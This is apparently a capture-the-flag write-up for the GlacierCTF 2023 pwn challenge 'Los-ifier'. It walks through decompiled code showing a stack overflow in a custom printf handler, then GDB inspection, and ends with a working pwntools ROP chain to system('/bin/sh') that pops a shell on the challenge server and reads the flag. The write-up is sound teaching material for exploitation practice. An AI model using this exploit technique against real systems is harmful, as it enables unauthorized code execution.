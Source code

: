 ```yaml
---
title: Los-ifier
date: 
description: Writeup for Los-ifier [GlacierCTF 2023]
author: pinebel
tags:
- pwn
draft: true
---
```


## Challenge Description:

Normal binary for normal people.

## Intuition 


First we run a checksec and a file on the binary and we can see that it's statically linked and that it lacks PIE. 
When first opening the binary in Ghidra we see a simple main function with nothing special, we can also observe that there is a function named setup() called, let's investigate. When opening the function, there is an interesting call made : register_printf_specifier(0x73,printf_handler,printf_arginfo_size). What this actually does is handling the %s fromat  specifier from the printf() function, let's see how the printf is handled in the printf_handler function. We observe another weird function, named loscopy() which takes three parameters. The first one is the address of local_58 + 3, the second one is our input and the last one is 10 ('\n'). Opening the loscopy function  we can see an overflow vulnerability inside of the while. 
 

 ```c
 undefined8 main(void)

{
  char local_108 [256];
  
  setup();
  fgets(local_108,0x100,(FILE *)stdin);
  printf("-> %s\n",local_108);
  return 0;
}

void setup(void)

{
  setbuf((FILE *)stdin,(char *)0x0);
  setbuf((FILE *)stdout,(char *)0x0);
  register_printf_specifier(0x73,printf_handler,printf_arginfo_size);
  return;
}

size_t printf_handler(FILE *param_1,undefined8 param_2,undefined8 *param_3)

{
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  size_t local_18;
  undefined8 local_10;
  
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_10 = *(undefined8 *)*param_3;
  local_58 = 0x736f4c;
  loscopy((long)&local_58 + 3,local_10,10);
  local_18 = strlen((char *)&local_58);
  fwrite(&local_58,1,local_18,param_1);
  return local_18;
}


void loscopy(char *param_1,char *param_2,char param_3)

{
  char *local_18;
  char *local_10;
  
  local_18 = param_2;
  local_10 = param_1;
  while (param_3 != *local_18) {
    *local_10 = *local_18;
    local_18 = local_18 + 1;
    local_10 = local_10 + 1;
  }
  return;
}

```
 
 ## Solution 
 
 Let's see what we can get from GDB, putting a breakpoint in the loscopy() function we can see that we can overwrite the __printf_function_invoke() with our input.  

```
[#0] 0x40182c → loscopy()
[#1] 0x4018d0 → printf_handler()
[#2] 0x43c3b7 → __printf_function_invoke()
[#3] 0x405672 → printf_positional()
[#4] 0x4072b7 → __printf_buffer()
[#5] 0x409181 → __vfprintf_internal()
[#6] 0x404d19 → printf()
[#7] 0x4019c6 → main()

gef➤  x/20g 0x00007fffffffc940
0x7fffffffc940: 0x00007fffffffc9c0      0x00000000004018d0
0x7fffffffc950: 0x0000000000000000      0x00007fffffffc9e0
0x7fffffffc960: 0x00007fffffffcc30      0x00007fffffffca00
0x7fffffffc970: 0x4141414141736f4c      0x4141414141414141
0x7fffffffc980: 0x0000414141414141      0x0000000000000000
0x7fffffffc990: 0x0000000000000000      0x0000000000000000
0x7fffffffc9a0: 0x0000000000000000      0x0000000000000000
0x7fffffffc9b0: 0x0000000000000000      0x00007fffffffdc00
0x7fffffffc9c0: 0x00007fffffffc9e0      0x000000000043c3b7
0x7fffffffc9d0: 0x0000000000000000      0x00007fffffffcc30
```


The question now is, with what do we overwrite the __printf_function_invoke() address. Remembering that it's statically linked we can craft a payload and invoke a shell. First we need to see how much padding there is needed  10*8+5 bytes. To create this exploit we use a small ROP chain (gadgets were found with ROPgadget) , first we need to put the “/bin/sh” address into RDI (system's argument register) and then we should return to system. Let's see if it works! 

Getting the addresses of system and /bin/sh:

```
gef➤  p system
$1 = {<text variable, no debug info>} 0x404ae0 <system>

gef➤  search-pattern "/bin/sh"
[+] Searching '/bin/sh' in memory
[+] In '/home/kali/CTF/Glacier/Losifier/Losifier/chall'(0x478000-0x4a0000), permission=r--
  0x478010 - 0x478017  →   "/bin/sh" 
  0x4784d9 - 0x4784e0  →   "/bin/sh" 
```


Initial payload:
```py
from pwn import *

target = remote( "chall.glacierctf.com" ,13392 )
p = b"\x00"*(10*8+5)


p += p64(0x0000000000402188) # pop rdi; ret
p += p64(0x478010) # pointer to /bin/sh
p += p64(0x404ae0) # system


target.sendline(p)
target.interactive()
```


Mhmm, it doesn't work, let's see why. The error we got is: stopped 0x4047c8 in do_system (), reason: SIGSEGV. The problem is that the stack should be aligned in 16-byte bounderies, to fix this, we use a ret gadget for padding (found with ROPGadget). So our final payload looks like this:

```py
from pwn import *

target = remote( "chall.glacierctf.com" ,13392 )
p = b"\x00"*(10*8+5)

p += p64(0x000000000040101a) # ret for stack alignment 
p += p64(0x0000000000402188) # pop rdi; ret
p += p64(0x478010) # pointer to /bin/sh
p += p64(0x404ae0) # system


target.sendline(p)
target.interactive()
```

## Flag 

Running the script we get:

```
$ python3 payload_clever.py
[+] Opening connection to chall.glacierctf.com on port 13392: Done
[*] Switching to interactive mode
$ ls
app
flag.txt
$ cat flag.txt
gctf{th1s_1s_th3_@riginol_fl@9}
```




